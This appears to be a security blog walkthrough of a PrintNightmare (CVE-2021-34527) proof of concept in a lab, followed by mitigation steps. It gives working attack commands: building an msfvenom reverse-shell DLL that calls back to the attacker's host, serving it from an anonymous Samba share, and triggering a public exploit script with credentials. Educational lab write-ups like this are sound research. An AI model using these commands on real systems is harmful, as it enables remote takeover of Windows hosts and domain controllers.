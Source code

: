 ```yaml
---
title: PrintNightmare PoC - (CVE-2021-34527)
author: Vinay
date: 2021-07-05
categories: [PoC]
tags: [Windows, PoC]
pin: true
math: true
mermaid: true
#image:
  #path: #/commons/devices-mockup.png
  #lqip: #data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  #alt: #Responsive rendering of Chirpy theme on multiple devices.
---
```


This is a short take relating to the recent spooler bug that was discovered in the windows environment, marked by CVE-2021-34527. This flaw is proven to be exploited to achieve remote code execution on windows environments that has not disabled this service and is kept up and running.

## About CVE-2021-34527

[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) was discovered by [researcher](https://twitter.com/edwardzpeng?lang=en), this flaw was initially classified as a Low severity vulnerability which can only be exploited for Privilege Escalation. But on June 21, 2021 the severity was changed to Critical as it was discovered that this bug allows authenticated remote code execution.

By taking advantage of this flaw an attacker could potentially get System level Administrative access on the Domain Controller in an Active Directory environment which can lead to the take over of the entire network/organisation. Various versions affected are Windows Server (2004, 2008, 2008 R2, 2012, 2012 R2, 2016, 2019, 20H2) and Windows (7, 8.1, RT 8.1, 10).

Windows Print Spooler service is by default enabled with all windows versions and is used to schedule printing jobs, find the printers in the network and so on. It's an old windows component (20+ years) and researchers find bugs in it occasionally. Ten years ago the notorious stuxnet worm that made damages to the nuclear plant in Iran was due to exploiting a similar bug which was embedded in the Windows Spooler service.

Microsoft Windows Print Spooler fails to restrict access to [RpcAddPrinterDriverEx()](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) function, in windows 10 this function can be seen in the snap-in module called printmanagement.msc. The module can be reached via the "Printers and Scanners" available in the settings. In this module by default it allows the operation of management of Print Server which means that a new print server can be added or modified by the current user(Low privileged) in the system.

![image-20210705112432286](/assets/img/CVE-2021-34527/image-20210705112432286.png)

## PoC

This is a replication of the PoC from [Cube0x0](https://github.com/cube0x0/CVE-2021-1675). Credit to [Jaacostan](https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html) for his article which I referred to while creating this PoC of mine. This Proof of Concept demonstration will be confined to Windows 10 environment and the attacking system(Kali Linux). This version of Windows 10 doesn't have the latest patch installed and is running as a Virtual Machine.

Before starting of make sure that Windows Firewall and Defender are disabled. This is because in the later steps we'll be using a generic payload which doesn't have any encoding or defence evasion techniques implemented in it, when this is the case the Windows Defender will detect the payload and flag it as malicious when it's trying to retrieve and execute it from the hosted path in the attackers system.

![image-20210704214647576](/assets/img/CVE-2021-34527/image-20210704214647576.png)

![image-20210704214732860](/assets/img/CVE-2021-34527/image-20210704214732860.png)

Made a note of the Local address of Win10.

![image-20210704214754639](/assets/img/CVE-2021-34527/image-20210704214754639.png)

Set up a samba share with anonymous login enabled on the attacking machine. This is required for hosting the malicious .dll payload. Make changes to the smb.conf file located at /etc/samba/smb.conf. I'd advise to create a backup of this file before making any changes. Add the following lines to the end of the smb.conf configuration file.

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[public]
    comment = Samba
    path = /var/public
    guest ok = yes
    read only = no
    browsable = yes
    force user = root
```

![image-20210704214844003](/assets/img/CVE-2021-34527/image-20210704214844003.png)

Here the share folder is in /var/public. The payload must be hosted here. Folder can be named anything, make sure the name is changed in the configuration file.

Create a folder in /var/ named public if it's not already present

```
sudo mkdir /var/public
```

Provide the necessary permissions

```
sudo chmod 0777 /var/public
```

Restart the samba service for the changes to take effect

```
systemctl restart smbd
```

Install the version of impacket version which is mentinoned in Cube0x0 PoC by the following

```
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Make a note of the attacker machine Local IP address.

![image-20210704215959333](/assets/img/CVE-2021-34527/image-20210704215959333.png)

Create the .dll payload using msfvenom.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=172.16.104.1 LPORT=443 -f dll -o ./revshell.dll
```

![image-20210704215148765](/assets/img/CVE-2021-34527/image-20210704215148765.png)

Copy the revshell.dll to the samba share folder in /var/public.

Clone the exploit file locally from the repository https://github.com/cube0x0/CVE-2021-1675

Now listen on port 443 using Netcat and trigger the exploit.

./CVE-2021-1675.py [domain]/[username]:[password]@target '\\\Location of share'

```
./CVE-2021-1675.py Test:Testrainbow6@172.16.104.129 '\\172.16.104.1\\public\\revshell.dll'
```

![image-20210704215118484](/assets/img/CVE-2021-34527/image-20210704215118484.png)

![image-20210704215206211](/assets/img/CVE-2021-34527/image-20210704215206211.png)

## Mitigation

Microsoft recommends to apply security update patches released on 8th June, 2021, it is also recommended to disable the Print spooler service if not in use.

- Check if spooler service is running

```powershell
Get-Service -Name Spooler
```

- If the service is described as running, perfrom the following-

  a. **Disable the Print spooler service**

  ```powershell
  Stop-Service -Name Spooler -Force

  Set-Service -Name Spooler -StartupType Disabled
  ```

  Note: Disabling the service disables the ability to print locally and remotely

  b. **Disable inbound remote printing through Group Policy**

  Go to Computer Configuration / Administrative Templates / Printers

  Disable the “Allow Print Spooler to accept client connections:” policy to block remote attacks.

  You must restart the Print Spooler service for the group policy to take effect.

  Refer to the this Microsoft article for the workaround (https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-34527)

## Credits

- https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html

- https://github.com/cube0x0/CVE-2021-1675

- https://github.com/JohnHammond/CVE-2021-34527

- https://www.blog.afine.academy/exploit-na-windowsa-10-czyli-eskalacja-przywilejow-made-in-poland/

- https://msandbu.org/printnightmare-cve-2021-1675/
